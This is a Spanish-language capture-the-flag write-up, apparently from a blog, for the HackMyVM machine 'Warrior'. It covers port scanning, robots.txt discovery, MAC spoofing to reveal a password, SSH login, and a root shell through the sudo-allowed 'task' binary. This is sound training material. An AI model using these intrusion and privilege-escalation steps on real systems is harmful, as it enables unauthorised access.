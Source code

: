 ```yaml
---
date: 2022-04-19 23:48:05
layout: post
title: Warrior - HackMyVm
subtitle: 
description: >-
    Warrior es una máquina de nivel fácil de la plataforma HackMyVm en la que tendremos una explotación diferente a lo que estamos acostumbrados y una escalada a través de un binario SUID.
image: /assets/images/HMV/Warrior-HackMyVM/portada.png
optimized_image: /assets/images/HMV/Warrior-HackMyVM/portada.png
category: blog
tags:
  - Linux
  - blog
author: elc4br4
paginate: true
---
```


# Escaneo de Puertos

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
| http-robots.txt: 7 disallowed entries 
| /admin /secret.txt /uploads/id_rsa /internal.php 
|_/internal /cms /user.txt
|_http-server-header: nginx/1.18.0
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como vemos tenemos un robots.txt

Abro el navegador y comienzo a explorar el servidor web y sus rutas

Una vez accedo a la ip encuentro lo siguiente:


![](/assets/images/HMV/Warrior-HackMyVM/warrior.png)


Si revisamos el archivo robots.txt encontramos varias rutas

```bash
Disallow:/admin
Disallow:/secret.txt
Disallow:/uploads/id_rsa
Disallow:/internal.php
Disallow:/internal
Disallow:/cms
Disallow:/user.txt
```

Voy accediendo una a una a todas las rutas, algunas me devuelven el error 404 y 403.

Excepto las rutas /user.txt … /secret.txt … /internal.php

En la ruta */user.txt* encontramos la palabra *loco* que podría ser un usuario del sistema.

En la ruta */secret.txt* encontramos algo más curioso

`0123456789ABCDEF`

Estas letras y números podrían servirnos posteriormente.

Finalmente reviso la ruta */internal.php* y me encuentro con lo siguiente.

![](/assets/images/HMV/Warrior-HackMyVM/internal.png)

Y tenemos otro posible usuario, *bro*

Además de eso nos dice que debemos cambiar la MAC interna como nos muestra *00:00:00:00:00:a?*

Pero nos falta una caracter al final de la dirección MAC, aqui es donde entra en juego el archivo secret.txt

Fui probando una a una hasta que di con la dirección correcta.

![](/assets/images/HMV/Warrior-HackMyVM/mac.png)

Una vez cambiada la dirección fisica de nuestra máquina atacante volvemos a acceder a la ruta /internal.php y encontramos una contraseña.

`Good!!!!!<!-- Your password is: Zurviv0r1 -->`

Ahora podemos acceder por ssh usando uno de los usuarios encontrados y la contraseña.

```bash
❯ ssh bro@192.168.0.31
The authenticity of host '192.168.0.31 (192.168.0.31)' can't be established.
ECDSA key fingerprint is SHA256:EHC+cRjEjv6OiTStHF158ViuvMIv/FYjdAKpF4L0tkY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.31' (ECDSA) to the list of known hosts.
bro@192.168.0.31's password: 
Linux warrior 5.10.0-11-amd64 #1 SMP Debian 5.10.92-1 (2022-01-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Feb  8 04:03:20 2022 from 192.168.1.51

bro@warrior:~$ id
uid=1000(bro) gid=1000(bro) groups=1000(bro),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

# ESCALADA DE PRIVILEGIOS

Ejecuto `sudo -l` para comprobar si podemos ejecutar algun binario como root sin contraseña.

Si usamos directamente `sudo -l` nos arroja un mensaje de que el comando no se ha encontrado asique pruebo con la ruta completa de sudo.

```bash
bro@warrior:~$ /usr/sbin/sudo -l
Matching Defaults entries for bro on warrior:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/binUser bro may run the following commands on warrior:
    (root) NOPASSWD: /usr/bin/task
```

Podemos ejecutar el binario task como root sin contraseña asique me dirijo a la web de GTFOBINS.


![](/assets/images/HMV/Warrior-HackMyVM/suid.png)

```bash
bro@warrior:~$ /usr/sbin/sudo /usr/bin/task execute /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

Un CTF un poco diferente pero brutal como siempre creado por SML.
